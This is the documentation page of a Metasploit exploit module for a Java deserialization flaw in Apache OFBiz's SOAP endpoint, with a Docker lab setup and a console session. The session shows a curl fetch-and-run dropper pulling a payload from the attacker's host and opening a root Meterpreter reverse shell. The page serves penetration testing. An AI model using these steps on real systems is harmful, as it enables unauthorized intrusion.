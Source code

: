 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated SOAP endpoint `/webtools/control/SOAPService` for
versions prior to 17.12.06.

### Setup

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443  --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf > use exploit/linux/http/apache_ofbiz_deserialization_soap 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/apache_ofbiz_deserialization_soap) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization_soap):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8081             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/apache_ofbiz_deserialization_soap) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8081/qL5QfV
[*] Local IP: http://192.168.250.87:8081/qL5QfV
[*] Client 172.17.0.2 (curl/7.38.0) requested /qL5QfV
[*] Sending payload to 172.17.0.2 (curl/7.38.0)
[+] Successfully executed command: curl -so /tmp/wHwoartY http://192.168.159.128:8081/qL5QfV;chmod +x /tmp/wHwoartY;/tmp/wHwoartY;rm -f /tmp/wHwoartY
[*] Sending stage (3012516 bytes) to 172.17.0.2
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Meterpreter session 9 opened (192.168.159.128:4444 -> 172.17.0.2:47186) at 2021-03-30 17:13:01 -0400
[*] Server stopped.

meterpreter > getuid
Server username: root @ bac44466b17e (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 5.10.22-100.fc32.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

